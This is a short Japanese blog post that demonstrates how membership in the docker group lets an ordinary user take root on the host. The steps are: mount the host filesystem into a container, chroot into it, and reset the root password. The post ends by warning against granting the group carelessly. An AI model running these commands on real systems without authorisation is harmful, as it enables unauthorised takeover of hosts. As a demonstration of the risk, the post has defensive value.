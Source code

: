 ```yaml
---
title: dockerグループの権限でホストのrootアカウントを奪取する
pubtime: 2016-06-14T10:27+0900
amp: hybrid
tags: [Docker, root, コンテナ, 仮想化, chroot, CoreOS]
description: dockerを使うときに使うdockerグループの権限があれば、そのホストのrootアカウントを簡単に奪取出来るそうです。実際に試してみました。
---
```


[docker](https://www.docker.com/)というコンテナ型の仮想化ソフトがありますよね。
セキュリティが宜しくないとかで、置き換えを目指す[rkt](https://coreos.com/rkt/)という別のソフトウェアが出て来ていたりします。

調べてみたところ、dockerグループに属した一般ユーザーがrootの権限を使えるらしいです。ヤバそうです。試してみました。

ひとまず、ubuntuか何かのイメージを落してきます。使うイメージはなんでも良いと思います。
ちなみにホストマシンには[CoreOS](https://coreos.com/)を使ってみました。
```
ホストマシン $ docker pull ubuntu
```

出来たら、起動します。
```
ホストマシン $ docker run -itv /:/mnt ubuntu /bin/bash
```
ホストマシンのルートディレクトリを`/mnt`にマウントしている、というのがポイントです。
あとのオプションは適当に調べてください。

次に、ホストマシンのルートディレクトリにchrootを行ないます。
```
コンテナ # chroot /mnt /bin/bash
```
これでホストマシンのrootに（擬似的に）なれました。

rootのパスワードを変えます。
```
chrootしたあと # passwd
```
これが出来たら、あとはexit2回でマシンを閉じます。

設定したパスワードでログイン出来るか試してみましょう。
```
ホストマシン $ su -
Password:
```
普通にrootになれると思います。

ね、簡単でしょう？
共有サーバーで運用する場合、dockerグループも迂闊に渡さないようにしたほうが良さそうです…。
